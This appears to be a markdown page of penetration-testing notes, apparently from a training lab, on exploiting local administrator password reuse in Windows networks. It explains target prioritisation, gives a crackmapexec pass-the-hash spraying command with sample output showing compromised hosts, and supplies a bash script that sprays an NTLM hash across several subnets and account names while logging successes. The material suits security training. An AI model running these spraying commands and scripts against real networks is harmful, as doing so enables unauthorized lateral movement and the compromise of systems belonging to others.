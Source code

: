 
## 🏠 Local Administrator Password Reuse

### 🎯 **Attack Concept**
Local administrator accounts often have the same password across multiple systems due to:
- **Gold Images**: Automated deployments using templates
- **Management Ease**: Admins using same password everywhere
- **Legacy Practices**: Old password policies still in effect

### 🔍 **Target Prioritization**
- **High-Value Servers**: SQL, Exchange, file servers
- **Domain Controllers**: If accessible (high impact)
- **Management Systems**: SCCM, monitoring tools
- **Jump Boxes**: Administrative workstations

### 💥 **Hash-Based Spraying**
```bash
# Local admin hash spraying across subnet
crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

**Example Output:**
```
SMB         172.16.5.50     445    ACADEMY-EA-MX01  [+] ACADEMY-EA-MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    ACADEMY-EA-MS01  [+] ACADEMY-EA-MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    ACADEMY-EA-WEB0  [+] ACADEMY-EA-WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
```

### 🔧 **Comprehensive Local Admin Hunting**
```bash
#!/bin/bash
# Hunt for local admin password reuse

HASH="88ad09182de639ccc6579eb0849751cf"
SUBNETS=("172.16.5.0/24" "172.16.4.0/24" "10.10.10.0/24")
ACCOUNTS=("administrator" "admin" "localadmin")

for subnet in "${SUBNETS[@]}"; do
    echo "[$(date)] Testing subnet: $subnet"
    
    for account in "${ACCOUNTS[@]}"; do
        echo "[$(date)] Testing account: $account"
        
        crackmapexec smb --local-auth $subnet -u $account -H $HASH --threads 50 | grep '\[+\]' | tee -a "local_admin_reuse.log"
    done
done
```
